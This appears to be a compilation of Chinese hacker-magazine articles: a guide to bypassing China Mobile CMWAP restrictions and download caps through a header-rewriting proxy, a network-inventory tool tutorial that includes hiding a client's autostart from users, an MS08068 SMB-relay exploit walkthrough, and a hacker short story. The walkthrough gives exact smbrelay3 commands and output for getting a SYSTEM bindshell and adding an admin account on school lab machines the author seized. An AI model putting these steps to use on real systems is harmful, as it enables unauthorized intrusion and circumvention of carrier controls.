



双击出现安装，国家选择 China，运营商为 China Mobile，如图 6。接下来很关键，设置不当可能瞬间让你欠费！如果你的仅是 CMWAP 套餐，则千万把“用默认的 ISP 拨号连接设置”前的勾去掉，接着点击“下一步”，把 CMNET 改成 CMWAP，其余不改动，用户名、密码均不填，如图 7。

如果你所在的地方包的 GPRS 套餐是不区分 CMWAP 和 CMNET 的（比如西安 10 元以上套餐就不分了），确认后连接手机开始拨号，为了方便可以右键创建拨号连接的快捷方式。成功后手机会出现“GPRS 调制解调器”连接。




第四步：运行“动感大挪移”，这个软件的作用是自动修改包头，解除 CMWAP 的各种限制，运行之后会产生一个可用的本地代理，HTTP 为 127.0.0.1:6000，SOCKS 为 127.0.0.1:6080，如图 8。


第五步：修改各种软件的代理设置。首先是 IE，依次打开“工具”－“Internet 选项”－“高级”，勾选“通过代理连接使用 HTTP 1.1”。再打开“工具”－“Internet 选项”－“连接”－“局域网设置”修改代理设置，如图 9；QQ 代理设置与上相似，如图 10。


> 注：如果是 CMNET 上网，第四、五步不用设置。通过以上步骤，实现了手机放在口袋，在蓝牙的有效传输距离之内，抱着本本就可以随时随地无线 上网了。虽然比不上无线路由，但也可以享受无线的方便。

### 限制去除

现在可以上网了，可移动的网络实在不敢恭维，更要命的是下载受到了限制。比如，湖南地区使用以上设置后无法下载大于 2M 的文件，无论使用什么浏览器或普通下载，这给我们上网带来极大的不便。常常是需要一个小软件也得麻烦同学使用 QQ 聊天窗口的文件传送，但经常地断线也让人忍无可忍！

本人经多天的查找和测试，终于在茫茫下载软件中找到了两款能有效突破 2M 限制的宝贝，就是“脱兔”和“中国网爪”。“脱兔”软件的设计者考虑到了这一点，在“选项设置”－“代理”中有很特别的一项：通过移动 WAP 上网，非常人性，强烈推荐使用！勾选“通过移动 WAP 上网”，并且填上代理 127.0.0.1，端口 80，如图 11。之后便可成功下载大于 2M 的文件，如图12，为我下载多个大于 2M 文件成功的截图（我家里拨号速度较慢，在朋友家里稳定有 10K）。

“中国网爪”这款下载软件虽然没有为移动 WAP 上网增加特别设置，但是因其独特的下载技术，可以通过增大下载线程来下载大文件，代理设置也填上 127.0.0.1，端口 6000，如图13，是成功下载大文件的截图。

### 后记

现在，我们不仅摆脱了烦人的数据线，而且可以下载大文件了，上网的限制已经被完全解除！调查了一下身边的同学，其实在家或出门不方便接入网络的情况还是有很多的，所以特地献上此文，以便小黑们能更加自由地驰骋网络，祝大家 GPRS 流量早日突破 G 级别！

> 编辑点评：
> 怎么说呢？小编我也经常碰到这种情况，不过花一小时多分钱解决比较大的麻烦我还是比较愿意的！这里大家好好看一下吧！本本用户可好了，那些台式的就……

## DEKSI Network Inventory：让网络监控了如指掌

从本文你可以学到：

- DEKSI Network Inventory 的使用

在庞大的局域网中，五花八门的软硬件和形形色色的用户都可能存在，因此，管理员经常需要了解整个网络的软硬件配置及系统运行状况，同时还要应对各种可能的安全问题。比如，某台电脑的内存条可能被拆掉，硬盘被“偷梁换柱”，甚至服务器被恶意监控等。但是，由于管理对象复杂，加上网络管理软件价格昂贵，有限的预算使得网络管理员只能使用简单的手工管理，这往往会带来很大的工作量。

那么，有没有“物美价廉”的方案呢？下面，通过最新版的 DEKSI Network Inventory V8.11 监控软件来解决这些问题，该软件于 2008 年 11 月推出，在功能上有很大的改进。通过它，不仅可以帮助网络管理员轻松解决硬件丢失等问题，甚至连一些非法的黑客手段也能一网打尽。软件下载地址：http://www.deksoftware.com 或 http://www.skycn.com/soft/16974.html。

### 一、软件安装配置：简单三步轻松搞定

第 1 步：下载安装程序，查看本地电脑信息。软件安装完毕，本地电脑会被自动添加到计算机列表中，需要查看电脑相关信息时，选择该电脑并点击某个分支对象，即可了解其详细信息。比如，现在要查看本地电脑的网络配置信息，点击 **“Hardware（硬件）”→“Network Configuration（网络配置）”** 即可，如图 1 所示。

第 2 步：添加客户机到目录列表中。

在软件界面中，可以通过三种方式来添加客户机，分别是：**直接添加某一台电脑、通过 IP 范围添加，或者通过“网络邻居”添加。**

这里我们以直接添加某台电脑为例，单击主界面菜单 **“Add（添加）”→“Add a Computer（添加一台电脑）”**，即可进入添加界面，如图 2 所示。

在添加界面中，输入 **“Computer（计算机名）”**、**“Network Address（网络地址）”**、**“Account Name（用户账号）”** 等参数，单击 **“Finish（完成）”** 即可进行简单的连接。

### 二、多管齐下：远程监控配置轻松实现

在搜集被监控电脑的数据时，DEKSI Network Inventory 提供了三种连接方式，分别是：**WMI（Windows 管理规范）**、**Agent Service（代理服务）**、**Client Application（客户端应用程序）**。

其中，最简单的方式是使用 WMI 直接进行连接，该方法不需要在远程客户机上安装任何程序，但需要有管理员权限。相比之下，后两种方式略显复杂，代理服务方式需要安装代理程序，客户端方式则需要在客户机上安装客户端应用程序。

为了实现这些搜集功能，软件在安装目录提供了 Agent 文件夹、Client 文件夹，并包含了相关的应用程序，用户可以选择任意一种监控方式进行远程监控。我们在这里选择客户端连接方式进行测试。

#### 1、巧用客户端方式完成远程监控

第 1 步：拷贝客户端软件并配置客户端参数。

将 Client 目录中的文件拷贝到被监测电脑中，双击 DNIClientCFG.exe 文件，该文件能够设置需要搜集的数据信息，如 BIOS、Boot Configuration、当前用户、环境变量、补丁、硬盘、内存等等。如需收集该类信息，直接勾选该选项即可，如图 3 所示。

这有点类似于我们平时使用远程管理工具的方法。现在运行 Client 文件夹中的 DNIClient.exe 文件，该程序就会收集客户端电脑的硬件配置信息和软件信息。同时，在服务器端的 Client 文件夹下会生成一个 cfg 文件夹，其中包括了一个后缀名为“.fld”和“.idx”的配置文件。

第 2 步：服务器端设置。

拷贝后缀名为“.fld”的配置文件到客户端电脑中，单击软件菜单 **“Data（数据）”→“Import（导入）”**，然后选择刚才拷贝的配置文件，稍等片刻即可完全导入数据。

第 3 步：建立常规信息搜集渠道。

如果每次更新数据的时候都要导入配置文件，那将是一件非常繁琐的事情。在客户端应用程序的帮助下，我们可以通过网络建立常规信息搜集渠道，即在服务器端建立一个用来存储导入数据的文件夹，然后开放共享权限给客户端用户。**需要注意的是，通过 WMI 和代理方式连接时，该方法不能实现。**

> 【小技巧】
> 如果客户端和服务器端之间无法正常访问，可以在服务器上输入“gpedit.msc”打开组策略编辑器。

我们以 Windows XP 为例，选择 **“本地计算机策略”→“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“用户权利指派”**。

然后双击 **“拒绝从网络访问这台计算机”** 项目。如果其中包含 guest 用户，选中并删除掉，如图 4 所示。

然后，在客户机控制面板中启用 guest 用户。依次单击 **“管理工具”→“计算机管理”**，在计算机管理界面中，打开 **“计算机管理（本地）”→“系统工具”→“本地用户和组”→“用户”**。

选中 guest 用户后，双击出现 guest 用户的“属性”界面，取消“账户已停用”项，启用 guest 用户。

第 4 步：开机自动监测电脑设备。

对于管理员来说，为了随时监视各个客户端电脑的配置信息，可以将 DNIClient.exe 添加到 **“开始”→“程序”→“启动”** 项中，这样，客户端电脑每次启动时，都会自动运行 DNIClient.exe 程序并更新该电脑的信息。如果担心网络用户删除启动组中的快捷方式，还可以将命令添加到 WIN.INI 文件中进行隐藏启动。

> 【小技巧】
> 在“运行”文本框中输入“msconfig”命令，打开“系统配置实用程序”窗口，切换到 Win.ini 标签。单击“新建”按钮，在弹出的文本框中输入 **“run=\\user001\client\DNIClient.exe”**，如图 5 所示，然后单击“确定”按钮重启电脑即可。

其中 `\\user001\client\DNIClient.exe` 表示 DNIClient 程序的位置，而 `user001` 则是安装有 DNI 的服务器名字，用户需要根据实际情况进行灵活修改。

#### 2、巧用代理方式完成远程监控

与客户端方式相比，代理方式的使用更加简单。在安装目录下，有一个 Agent 文件夹，通过该文件夹下的相关程序即可实现远程连接，具体步骤如下。

第 1 步：客户端设置。

将该文件夹拷贝到客户机上，直接安装其中的代理应用软件 deksi-network-inventory-agent.msi。安装完毕，设置界面如图 6 所示，在这里可以设置连接密码、IP 过滤以及 TCP 端口等参数。

第 2 步：服务器端连接方式设置。

在实施监控的服务器软件中，右键选中某个监控对象，在弹出的菜单中选择“properties（属性）”选项。在“Account Name”区域，勾选“Connect Using Remote Agent（运用远程代理进行连接）”，这些设置表示在对该对象进行监测时，使用代理方式。

第 3 步：服务器端代理参数设置。

设置完毕，回到软件主界面，单击菜单“Service（服务）”-“Setting（设置）”即可出现设置界面。在此界面中，单击左侧的“Remote Agents（远程代理）”即可对连接参数进行设置，注意参数必须与客户端设置保持一致，如图 7 所示。

实际连接过程中，如果出现无法连接的现象，可能原因包括：客户端防火墙的阻挡、不支持 WMI（Windows 95、98、NT 等不支持）、连接用户的权限不够等。设置的时候，需要对症下药，从而顺利完成连接。设置完毕，用户就可以开始对网络实施管理了。

### 三、了如指掌：网络信息监控完全接触

通过 DEKSI Network Inventory，用户可以快速查看被监控电脑的哪些服务正在开放，也可以通过多种方式进行错误信息提示。尤其值得一提的是，该软件还可以给出详细而具有个性化的测试报告。

第 1 步：查看详细的硬件信息和软件信息。

对于管理员来说，庞杂的信息更容易让人眼花缭乱，如果能够提供分类信息，就可以轻松地实现故障定位了。通过该软件，直接选中某个监控对象，即可看到该对象的硬件和软件信息，整体分类十分全面，而且描述清晰。

其中在硬件部分，包含了 CPU 处理器、主板、硬盘、光驱、内存、显示器、网络配置、BIOS、键盘、打印机、USB 闪存、端口、插槽、IDE 控制设备等；软件部分则包括操作系统、用户账号、开机菜单、安装的软件、共享资源、多媒体、服务、系统驱动、路由表等。这些信息分类清晰，对于管理被监控电脑有很大帮助。

例如，需要了解电脑的硬盘信息时，单击工具栏中的“Disk drives（硬盘设备）”按钮，就能够显示当前电脑硬盘中的详细信息，其中包括：硬盘品牌、硬盘型号、硬盘容量、硬盘各分区等。通过类似的方法，还可以查看其他设备和系统信息，如图 8 所示。

> 【小技巧】
> 如何搜集和获取实时数据信息？

由于被监控对象的数据可能是实时更新的，如硬盘被更换、内存增加等，因此，管理员需要动态地掌握对象信息。在软件主界面中，单击“Data（数据）”-“Update Data（更新数据）”，如果连接正确，即可获得实时的最新信息。

第 2 步：预览、打印和导出信息。

如果想将某个设备信息打印出来，用户可以单击菜单中的相关功能进行操作。

## MS08068 漏洞利用浅析

从本文你可以了解到 MS08068 相关知识。

### 开篇

MS08068 漏洞也出来很久了，并且放出了利用工具。应小编后生兄弟的要求，小弟不才，撰写了一篇关于 MS08068 用法的文章，简单做下科普，希望还不知道用法的朋友可以学习一下，大牛们看了也别见笑。

测试这个漏洞还费了我好多功夫（编辑注：莫非大家都用 360 打上了补丁？……），因此只好到古老的学校机房去测试了。先是测试本机，很容易地就成功了，机房的电脑几乎都是一样的配置，因此可以断定全机房的电脑都有可能没打补丁，于是我就随便霸占了两台邻近的机器开始了测试。

要是还有不了解漏洞信息的朋友，可以去 http://www.tarasco.org/security/smbrelay/index.html 看看，工具我已经打包了，不放心的可以自己去那个网站下载。主要用到的工具是 smbrelay3.exe，由于是命令行工具，因此 CMD 下键入以后出现用法及相关信息提示，如图 1。

```text
E:\新建文件夹>smbrelay3
SmbRelay3 - NTLM Authentication replay attacks
(c) 2007 - 2008 Andres & Miguel Tarasco
Web Site - http://www.tarasco.org

Usage: SMBRelay3.exe <binding> [options]

Binding Parameters:
  --ListForSMBRequests      (Wait for incoming connections against port 445)
  --ListForHTTPRequests     (Wait for incoming connections against port 80)
  --ListForSMTPRequests     (Wait for incoming connections against port 25)
  --ListForIMAPRequests     (Wait for incoming connections against port 143)
  --ListForPOP3Requests     (Wait for incoming connections against port 110)
  --psexec <host> <username> <password> (psexec like tool)
  --psexec <host> <username> <:NTLMHash> (psexec like tool)

Optional Parameters
  --AlternativeSrcPort <port>   (Listen under different Port)
  --AlternativeDstPort <port>   (Connect to a different SMB Port)
  --SMBDestinationHost <host>   (Replay attack against third part host)
  --SrcHostname <host>          (Spoof incoming client name for Win2K)
  --ftp <hostname> <port> <user> <pass> (download sms.exe from remote ftp server)
  --v[ul]                       (Displays verbose information)

Example: smbrelay3.exe --ListForHTTPRequests --AlternativeSrcPort 8080 --SMBDestinationHost dc.mydomain.com
```

提示，如图 1。

我们看到有很多参数：`<Binding>` 为绑定的端口参数，这里可以选择 SMB 的默认 445 端口，或者 HTTP 的默认 80 端口以及其他的，当然前提是这些端口还没被占用。后边的 `<Optional>` 为可选参数，比如 HTTP 的 80 端口已经开放了，绑定时就提示出错，因此就需要用到 AlternativeSrcPort 这个参数来转发端口。最下边的 Example 为给出的用法举例，下边我们就来开始实战了。

### 实战

首先看下两个实验机的相关信息，均为 Windows 2000 的系统，攻击机和被攻击机 IP 分别为 172.16.11.211 和 172.16.11.197。

```text
E:\新建文件夹>smbrelay3.exe --ListForHTTPRequests --AlternativeSrcPort 1986 --SMBDestinationHost 172.16.11.197
SmbRelay3 - NTLM Authentication replay attacks
(c) 2007 - 2008 Andres & Miguel Tarasco
Web Site - http://www.tarasco.org

[+] Listening for incoming connections at port: 1986
```

我们按照 Example 的样本输入如下命令：

`smbrelay3.exe --ListForHTTPRequests --AlternativeSrcPort 1986 --SMBDestinationHost 172.16.11.197`

简单解释一下，由于机房的电脑都开了 80 端口，因此这里选择了其他端口作为 HTTP 协议的端口。Example 中的域名 dc.mydomain.com 被我们改为了实际的被攻击机 IP：172.16.11.197。输入完以上命令并回车后，效果如图 2。

这就表示监听 1986 端口成功，反之请检查是否端口被占用。现在，被攻击机的浏览器只要一访问攻击机的 1986 端口，则会中招，如图 3、图 4，表示漏洞测试成功。

这个时候我们能看到攻击机的监听程序也起了反应，如图 5。

```text
[+] Accepted Connection - Replaying against 172.16.11.197
Sending SMB Authentication Handshake
Received SMB Message with NTLM v2 packet
Sending NTLM Challenge from SMB Server to the HTTP Client
Received Final Authentication packet from remote HTTP Client
Trying to authenticate to remote SMB as administrator
Sending Final SMB Authentication packet with NTLM Message type 3
SessionSetupAndX Completed. Authentication against 172.16.11.197 Succeed as administrator
[+] Creating Remote Service
[+] Opening Remote Service
[+] Starting Remote Service....
[+] **** Remote SmbRelay3 BindShell Service Running **** (172.16.11.197:8080)
[+] Listening for incoming connections at port 1986
```

这表明已经成功通过了 NTLM 验证并自动把工具里的 smrs.exe 传了过去，还打开了被攻击机的 8080 端口。这时候我们只要直接 TELNET 被攻击机的 8080 端口，就能得到一个最高权限的 SHELL，如图 6。

下面添加一个管理员 nohack，如图 7、图 8、图 9，注意 TELNET 下输入命令是等回车以后才会显示的，因此别像我一样输错哦。

### 补充

- 1. 有的局域网间由于设置问题，会提示输入密码；此时必须一个已知的最高权限的密码，否则可能出现如图 10 的错误，导致 smrs.exe 不能被传过去，开不了 8080 端口。而且由于实际情况中局域网间的设置不同，还有可能一直提示你输入密码，导致漏洞利用不成功。
- 2. 还有，最初给的那个网站上没加一个 SMBDestinationHost 这个参数来指定被攻击机的 IP，按照那种方法我没测试成功过。
- 3. 利用的时候，局域网间两台机器必须在同一工作组，而且在同级协议下。

对于这个漏洞，我的想法是可以在提权的时候使用，比如在 CMD 下如果能够 `start http://xxx.xxx.xxx.xx:xxxx` 开启浏览器的话，说不定可以打开对方的 8080 呢。当然，最终这个漏洞的利用还是仁者见仁，智者见智的，我是 Jk7ose，谢谢大家耐心看完。

> [文章中提到的工具已收录于本期光盘中]

## 编辑点评：

这类漏洞利用起来确实不怎么好使，不过利用不一定非要在 cmd 下，也可以写一个 bat 或者 vbs 之类的脚本。

```text
[+] Accepted Connection - Replaying against 172.16.11.197
Sending SMB Authentication Handshake
Received SMB Message with NTLM v2 packet
Sending NTLM Challenge from SMB Server to the HTTP Client
Received Final Authentication packet from remote HTTP Client
Trying to authenticate to remote SMB as k34
Sending Final SMB Authentication packet with NTLM Message type 3
[-] Error: Unable to connect to admin$
[-] ftphost parameter not selected. Unable to execute reverse payload
```

# 黑小说

> XApache：

最近一直闹金融危机，北京这里很多公司都倒闭了，还有很多单位为了过冬也都裁员了。朋友笑着说，作为 IT 民工，不用和其他民工兄弟过年挤一辆火车，原因是他们大部分已经提前回家了。这个笑话听着有些苦涩，却恰当地表达了当前经济萧条的状况。

不过话说小简我虽然家在江浙地区，每次过年从北京回家都买不到这条线的票，实在郁闷之极。如果再这样的话，今年我就给土豆看办公室了。顺便审稿子，说到稿子，“黑小说”最近出了几个新的作者，虽然文章结构没大问题，但是标点、段落、格式等还需要改进一下，另外老生常谈的就是错别字……我的邮箱是 verdureorange@yahoo.com.cn，如果有谁想要直接咨询审稿编辑意见的话，可以给我发邮件，小说稿以 TXT 格式的就可以。

写小说的过程中可以参考一下高中的语文课本，虽然毕业很多年，但我依然觉得高中时候的写作训练是非常有用的。呵呵，可能和我当时遇到好老师也有关系吧。不管怎么说，非常欢迎优质的小说稿件过来哦。

图 张鹏亮

顿儿最近很郁闷，非常的郁闷，这种郁闷的情绪传染给了文叔和我，我们对此都一筹莫展。这不是 0day，也不是 SQL 注入和溢出，然而确确实实是我们的数据被盗了。这就好比 YY 小说里面的偷血的剧情以及柯南版的密室杀人案，看不到任何蛛丝马迹，但公司的下月计划报表被公布到一个行业论坛里，这却是事实。

顿儿从来不偷税漏税，然而这种行为，以及发帖人对这个报表指指点点的行为让他非常不满。习惯了发号施令和对别人指指点点的他，一下子爆发了。

顿儿找来了文叔，然后指着他的脸问这是怎么回事。文叔低着头，我在旁边看着，以为他百年难得一遇地要对顿儿服软道歉。自从文叔这个职业黑客到顿儿的公司工作以来，一直都是坚持己见，帮顿儿敛了不少财。要挟、下套、冷脸面对人生，是他一贯的风格。顿儿也是喜欢这种雷厉风行的工作态度，但还是不爽文叔的这张脸。

文叔抬起头道：“方总，我很想对这件事情负责，但我他妈被你招来不是做网络安全，而是做副总经理的。”

顿儿的眼神恍惚了一下，有些站立不稳。面部表情从愤怒、惊讶、感慨一直到无奈，循环播放着，肌肉的活跃度已经超越了常态。

文叔虽说不管这事，但还是觉得很丢人。前半生一直都是他玩弄别人，现在轮到别人玩弄他，其实最终还是造化弄人。面子是靠别人给的，但更重要的是自己争取。现在有人抽了顿儿一嘴，文叔在旁边看着，作为朋友的他，自然要有所表示。

我们都谋定而后动，三个人坐在一起推演入侵的手法和技术。我最先提了一个测试，文叔敏感道：“你们发现没？这个系统缺少最重要的一个东西！”顿儿眼神一亮：“什么？”“痕迹！没有任何迹象表示这被人入侵过！”

“会不会是公司有人不小心泄露的？”文叔道。“应该不会有人那么不小心，这种东西虽然不算什么大机密，但每个人都知道不能告诉竞争对手的。而且我从来不亏自己人，他们也没有必要这么做。”

“我之所以肯定不是自己人泄露的，是因为被泄露出去的东西没有什么实际的经济价值。虽然别的公司可以看到我们下个月的行动计划，但已经定好的事情总是要做的，别的公司做得比我们好而已，不稀罕看；做得没我们好的，看了也只是嫉妒。”

“不过近期不把事情解决，下次暴露出来的就可能是财务上的账目，比如员工的薪水、和孝敬各方的一点心意……这些东西要是流了出去……”顿儿一阵喃喃，“那可真是破坏社会的安定团结啊。”

“嗯，社会一定要安定，我们商人才有钱赚。”文叔斩钉截铁道。

尽管事情一时半会儿还无法解决，但公司还要运转，所以平日的应酬还是要做，酒也是一样要喝。

这天顿儿带来两个人，看起来很阳光的两个人。顿儿大大咧咧地介绍道：“这两个是我们公司跑市场的，瘦的叫小李，高的叫小简。嗨，这个是咱们副总，这么长时间你们也没见过，叫文哥好了，那个比较猥琐的是九哥。”

“哪能啊，这么帅的大哥就是九哥啊，幸会幸会，将来还要多罩着小弟啊。”小李伸出手来跟我握手，我把右手递过去，他跟着另外一只手也伸出来，双手紧紧地握了两下。

我心说这小子蛮上道，挺懂礼貌。

“嗯，你们家那个耍飞刀的也很帅，我也一直想见，就是没机会见着，今天见了你，感觉小李飞刀再世也没你牛啊。”

小简看起来就是一个比较理性的人，和文叔问了声好，然后几个人就一起坐下喝酒了。男人有酒就容易冲动，很快我们就无话不谈了，事实上跑市场的人都很健谈，什么话题都能有得聊。

顿儿带来的这两个人很有特色，他们给人的感觉完全不一样，但都很真诚。我和小李碰杯的时候，他总是要把杯沿压低我一些以示尊重，而小简每次都是双手捧杯。

顿儿喷着酒气：“这两个人有意思吧？他们基本都是一起啃钉子户的。效果挺好，好几个感觉拿不下的单子都让他们拿到了。”

“小李以前是混社会的，他跟我，那是我救过他一命；小简是学院派，专业知识挺强，不过不太懂变通，两个人配合起来就很好。”顿儿有些难过，“要是人，都是人才，就看怎么用。但是现在那个问题，却不是有人就能解决的。”

“别着急，总会有眉目的。”文叔拍拍他的肩膀，“应该不是大问题，否则全国都会有动作的。也许只是我们哪些方面没有想到而已。”

“如果是大漏洞，一定不会技术封锁的；因为总有一些人因为钱的缘故把漏洞做成实际的‘产品’，所以真的，真的只是我们没有发现问题而已。”

“方总，要不要在公司把消息流出去？要是人干的，肯定能发现点蛛丝马迹。”小李说道。

“不行，真要是公司里的人干的，我肯定饶不了他！”顿儿捶胸顿足道。

“你们方总还是喜欢动粗，这点看来怎么也改不了了。都说了咱们是文明人，文明人不动粗的，呵呵。”文叔笑道。

“你们都不成熟，让小李找个大哥把那家伙干掉，不是更彻底么？”我随口说了一句。

周围一下安静了起来，无数道目光聚了过来，仿佛在看刽子手一般。顿儿他们背过身去，很无辜地继续喝酒。

顿儿开始清理公司的内部账务，一时间好几个部门人人自危。要说采购、市场这些人不吃回扣，打死也没有人相信，这些都只是多吃少的问题，只要是在顿儿容忍范围之内的，看在他们创造的利润之下，他不会多说什么。

顿儿并不想造成什么恐慌，他只是要把一些重要的东西用原始的方法保存起来。当然，这次也是一个机会，他 K 掉了一个开始有点产生骄傲情绪的采购。当然骄傲并不是主要原因，而是他贪得实在太多了，贪得多也就算了，还固步自封；固步自封也就算了，他还把他老婆给整到公司来搞腐败。

顿儿义正词严地说：“我搞钱是让你给我降低成本的，不是让你找个没用的人来混吃混喝的。”那个家伙的老婆带着幽怨的眼神看着顿儿……“看，看什么看，公司不需要你们两个。赶紧滚蛋。”

“我，我投诉你无故辞退员工！”被开除的小子色厉内荏道。

“好啊，去投诉吧，我也投诉你违反公司法，涉嫌职务侵占罪！”

……

顿儿干净利落地肃清了一下公司内部环境，尽管他不太喜欢做这种事情，但多少往自己口袋里收回点资金总是好的。虽然现在全公司鸡飞狗跳不断，顿儿依然没有从公司内的人员中发现资料泄露的丁点蛛丝马迹。

看一个人的眼神，能够看到他的内心。这句话不见得对，但多多少少有点警示的意味，连文叔都说顿儿现在的攻击性太强了。顿儿觉得自己有点要发疯，他不喜欢这样，却不停地在往这方面发展。

文叔是个苦孩子，所以和公司上下每个人的关系都很好，因为他理解每个人。这天他和保洁阿姨聊天，阿姨谈起给儿子买 PSP 的钱还没有凑够，“我得不吃不喝两个月才能给儿子买个 PSP。”文叔说这么贵的东西你干吗给他买？阿姨面露辛苦的笑容说：“儿子要毕业了，以后找工作会很辛苦，我以后也没什么可以送他的了，这个就是他工作以前的最后一份礼物。”文叔说那你得存好久啊，买个 MP3 什么的表示一下就可以了，干吗买那么贵的？

阿姨有些不知所措：“前两个月我送给他一个 MP3，结果他嫌不好，从窗户外面打了出去。”她从口袋里拿出一个外表破碎的 MP3 给文叔看，微微一笑：“我托你们那些工程师帮我拷了点歌进去，现在一样可以用。”文叔一点话都不想说了，他突然有些怀疑阿姨的儿子，会不会是他偷偷跑到公司，顺手拿走了资料？

今天有阵雨，文叔把我们叫出来喝酒。他说已经知道公司机密是怎么泄露出去的了，顿儿接到电话只用了十分钟就到了经常去的那家酒吧。

我同样很好奇，因为是文叔发现的，也许是我们平日里根本不曾注意的东西，虽然细小，但是意义重大。文叔先把保洁阿姨的故事告诉我们，语气没有任何变化。顿儿说：“你怀疑是她儿子穷疯了，让他娘利用职务之便窃取了资料？”

“是的，这个嫌疑很大，而且我们公司对这些零杂工管理并不严格。”

“你放屁！”顿儿怒道，“公司规章制度可是我规定的，那还不严格？我可是对任何人都没有例外的。而且就他娘的那样子，那东西明面放在桌上她也不认得是什么。”

“有错过，没放过么？对她总该调查一下不是？”

“公司有监控录像，要不明天看一下吧。”顿儿沉思了一下说道。

第二天我们一起去翻阅公司的硬盘录像机，但是很明显，公司员工的物理防范工作做得都很到位，就连善良的大姐靠近公司电脑的机会都没有，她总是很勤劳，很少有休息。

顿儿看得有点郁闷，说下个月给她涨 500 块工资。文叔说一百一百涨吧，她工资只有 800，你涨多了她会害怕的，相对而言，500 块的比例太高了。

我突然觉得今天不该来看这录像，看到这些，让我心情变得更加难受。然而顿儿还是有了收获，他发现了监控的可爱之处，这让他找到了问题的根源。

要说起公司的监控，确实是高科技产品，800×600 的高分辨率，音画同步，H.264 硬件实时压缩，8 块 500G 硬盘，这些无疑都是相当高级的配置，尽管当时顿儿的初衷只是为了检查员工上班是否在谈恋爱而浪费时间。

顿儿听到这么一段对话，通过多屏幕多场景切换，他看了一部精彩并且有趣的电影。

“李哥，咱们下个月工作计划太多了吧？是不是要和方总提一下？”

“方总有说今天是讨论会么？拜托你脑子灵光点吧，今天是工作分派会议，再说忙一点也好，对你是个历练。”

“当老板也太爽了吧，说啥就是啥，我们累死了不就没人给他干活了？”

小李进电梯，画面一转，跳到另外一台监视器上。

“当老板本来就爽，但这老板不是人，是人都能当的，你得自己掂量掂量，你自己行不行，有没有人罩你，你又能罩多少人？”

“再说了，”小李面带嘲笑地看着那人，“公司工资给得高，就算累死，也会有人发疯一样往里挤。”他从文件夹里随意地抽出一张纸，撕掉了一截，用烟草卷了一支粗的，狠狠地吸了起来。

看到这里，顿儿骂了一句，然后就开始给小李打电话了。

……

“哟，文哥，最近咱们公司生意怎么样？方总不让我出去了，还说以后也不让我用公司的纸卷烟抽。昨儿整的，好像是丢了张月计划表，正好是前几天被我给卷了，剩下有字的部分随手丢了。咋？怎么可能还发奖金，就给了一点工资啊。文哥你帮我想想办法吧，给方总说个情，太郁闷了，实在太郁闷了！这个月去酒吧都不敢和妹子唱歌喝酒了，穷啊……”

文叔把电话设成免提，让小李的声音透过手机传了出来：“方总，我们忙活了半天就是因为这位？”

顿儿点点头，面带笑意。

> 编辑点评：

